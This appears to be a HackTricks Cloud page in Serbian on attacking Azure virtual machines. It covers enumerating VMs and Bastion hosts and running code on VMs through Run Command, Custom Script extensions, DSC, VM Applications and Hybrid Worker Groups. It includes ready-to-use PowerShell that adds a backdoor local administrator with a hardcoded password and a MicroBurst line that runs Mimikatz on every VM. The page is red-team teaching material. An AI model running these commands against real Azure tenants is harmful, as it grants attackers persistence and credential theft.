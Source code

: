 # Az - Virtuelne mašine i mreža

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podrška HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## Osnovne informacije

[Iz dokumenata:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Azure virtuelne mašine su jedan od nekoliko tipova [resursa za računanje na zahtev, skalabilnih](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) koje Azure nudi. Obično birate virtuelnu mašinu kada vam je potrebna veća kontrola nad okruženjem za računanje nego što to nude druge opcije. Ovaj članak vam daje informacije o tome šta treba da razmotrite pre nego što kreirate virtuelnu mašinu, kako je kreirati i kako je upravljati.

## Azure Mrežne informacije

Azure mreže sadrže **različite entitete i načine za konfiguraciju.** Možete pronaći kratke **opisne**, **primere** i **komande za enumeraciju** različitih Azure mrežnih entiteta u:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** nudi sigurno, potpuno upravljano RDP (Remote Desktop Protocol) i SSH (Secure Shell) rešenje za pristup preko SSL-a putem Azure portala. Integrisan je unutar Azure Virtuelne Mreže, omogućavajući RDP i SSH povezivanje sa VM-ovima koristeći privatne IP adrese, izbegavajući potrebu za javnim IP adresama. Ovo ga čini sigurnijom, praktičnijom alternativom tradicionalnim metodama koje uključuju dodeljivanje javnih IP adresa i konfiguraciju NSG pravila za pristup VM-ovima. Programeri i IT osoblje mogu sigurno pristupiti VM-ovima sa Azure portala koristeći svoje web pretraživače, pojednostavljujući proces za razvojna i testna okruženja.

Da biste naveli sve Azure Bastion hostove u vašoj pretplati, možete koristiti sledeću komandu:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## VM Enumeracija
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Pokrenite komande u VM-u**

### **AAD prijava u VM-u**

Moguće je omogućiti pristup korisnicima koji su autentifikovani putem AzureAD. Na primer, pokušavajući da pristupite **linux VM-u**: `ssh username@azure-corp.com@1.1.1.1` (važno je **koristiti email** sa azurecorp koji je korišćen prilikom pokušaja prijave) mogli biste dobiti grešku kao: 

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Samo **pratite te instrukcije** odlaskom na [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) i unosom koda, koristite email i lozinku kao akreditive i moći ćete da se povežete putem SSH (ako taj korisnik ima dovoljno dozvola za to: `Virtual Machine Administrator Login` ili `Virtual Machine User Login` uloga).

### **Pokreni Komandu**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Pokreni prilagođenu skriptnu ekstenziju**

Azure virtuelne mašine (VM) ekstenzije su **male aplikacije** koje pružaju konfiguraciju i automatizaciju **zadataka** nakon implementacije na **Azure VM-ovima**. Na primer, ako virtuelna mašina zahteva instalaciju softvera, antivirusnu zaštitu ili mogućnost pokretanja skripte unutar nje, možete koristiti VM ekstenziju.

Stoga, ako imate pristup za pisanje, možete izvršiti proizvoljan kod:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) je PowerShell alat sličan Ansible-u, koji se koristi za postavljanje hosta putem koda. DSC se integriše sa Azure-om, omogućavajući upload specifičnih konfiguracionih fajlova. Ovi fajlovi moraju da se pridržavaju stroge sintakse. Značajno je da DSC ekstenzija u Azure-u može izvršavati komande iz fajlova koji ispunjavaju određene kriterijume formatiranja, čak i ako sintaksa nije ispravna prema DSC standardima, kao što je prikazano na priloženoj slici.

Izvršenje ovih komandi olakšava [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) funkcija u Az PowerShell-u. Zahtevi uključuju **.PS1** fajl sa definisanom funkcijom, a fajl mora biti upakovan u **.zip** fajl. Iako sintaksa možda nije tačna za DSC, kod će se i dalje izvršiti. Međutim, ekstenzija će označiti status izvršenja kao "neuspeh," i nijedan izlaz iz komande neće biti vidljiv zbog toga što je status prepisan porukom o neuspehu.

### VM Application Definitions

VM Application Definitions omogućavaju ponovljivo postavljanje verzionisanih aplikacija na Azure VM. Ovaj resurs podržava postavljanje i ažuriranje aplikacija širom VMs. Da bi se ovo postavilo, potrebno je nekoliko koraka, uključujući komande kao što su **`New-AzGalleryApplication`** i **`New-AzGalleryApplicationVersion`** u Az PowerShell-u.

Izvršenje aplikacija ili komandi putem ove metode uključuje **"VMAppExtension,"** koja se automatski instalira kada se aplikacija primeni na VM. Ekstenzija preuzima fajl sa specificiranog URI i imenuje ga tačno kao aplikaciju, bez ekstenzije. Da bi se fajl ispravno izvršio, polje "ManageActions" u REST API pozivu mora biti konfigurisano da preimenuje fajl sa odgovarajućom ekstenzijom. Postavljanje ove metode, kada se završi, će ličiti na strukturu prikazanu na priloženoj slici.

Međutim, ova metoda izvršenja je relativno spora, traje oko 3-4 minuta da izvrši aplikaciju ili komandu. Fajlovi povezani sa ovim procesom se čuvaju u specifičnim direktorijumima (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` za kopiju aplikacije i `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` za status izvršenja).

Obe tehnike pružaju jedinstvene načine za izvršavanje komandi i postavljanje aplikacija u Azure okruženjima, svaka sa svojim skupom zahteva, koraka i razmatranja.

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) su funkcija u Azure-u koja omogućava izvršavanje Runbook-a, konfiguranih u Automation Account-u, na Azure Virtual Machine (VM) koja je deo određenog HWG-a. Ovo izvršenje se olakšava putem ekstenzije instalirane na VM-u, koja postavlja Runbook kod na VM. Značajan aspekt ovog procesa je da stvarne akreditive nisu faktor u izvršenju jer se kod izvršava sa povišenim privilegijama, specifično kao **SYSTEM** ili root, kao što je ilustrovano na priloženoj slici.

Ključna informacija za one koji koriste Windows 10 VMs je potreba da se specificira verzija PowerShell-a za Runbook. Trebalo bi da se postavi da se izvršava kao PowerShell Verzija 5.1 umesto 7.1. Ovaj zahtev proističe iz činjenice da PowerShell 7.1 nije instaliran po default-u na ovim VMs, što dovodi do neuspeha u izvršenju skripte ako je verzija 7.1 specificirana.

Ova funkcija Azure-a nudi robustan metod za automatizaciju i upravljanje zadacima širom hibridnih okruženja, omogućavajući centralizovano upravljanje i izvršenje zadataka na Azure VMs.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
